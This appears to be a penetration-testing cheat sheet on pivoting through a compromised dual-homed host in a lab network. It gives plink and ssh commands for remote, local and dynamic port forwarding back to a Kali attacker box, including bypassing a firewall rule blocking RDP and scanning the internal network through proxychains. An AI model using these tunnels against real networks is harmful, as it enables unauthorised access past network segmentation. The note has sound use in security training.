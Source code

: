 
The Attacking Box (Kali Linux)   
IP: 192.168.1.16   
Netmask: 255.255.255.0   
Gateway: 192.168.1.1   

The pivot host (Windows XP) or linux     
User: lowuser   
FIRST IP: 192.168.1.30   
Netmask: 255.255.255.0   
SECOND IP: 10.0.0.2   
Netmask: 255.0.0.0    

Web server    
IP: 10.0.0.10   
Netmask: 255.0.0.0   

# Port Forwarding
 
Plink.exe is Windows binary for ssh can be found at:   
`/usr/share/windows-resources/binaries/plink.exe`   

### Remote Forwarding

To get to server at 10.0.0.10

From Target   
`plink 192.168.1.16 -P 22 -C -R 127.0.0.1:4444:10.0.0.10:80`   
`ssh -p 22  -R 127.0.0.1:4444:10.0.0.10:80 root@192.168.1.16`

From Kali   
`curl 127.0.0.1:4444`

### Local Forwarding

Firewall rule blocking 3389

From Target   
`plink 192.168.1.16 -P 22 -C -L 192.168.1.30:3390:192.168.1.30:3389`   
`ssh -p 22 -L 192.168.1.30:3390:192.168.1.30:3389 root@192.168.1.16`

From Kali   
`rdesktop 192.168.1.30:3390`

### Dynamic Forwarding

From target    
`plink 192.168.1.16 -P 22 -C -R 2222:127.0.0.1:22`    
`ssh -f -N -R 2222:127.0.0.1:22 root@192.168.1.16`

From Kali   
`ssh -f -N -D 127.0.0.1:8080 -p 2222 lowuser@127.0.0.1`

`vi /etc/proxychains.conf`   
`socks4   127.0.0.1   8080`

`proxychains nmap -sT -Pn <IP>`



### Other tools

HTTPTunnel   

stunnel 

socat

Reference:   
https://www.cybrary.it/0p3n/pivot-network-port-forwardingredirection-hands-look/   
https://technostuff.blogspot.com/2008/10/some-useful-socat-commands.html    
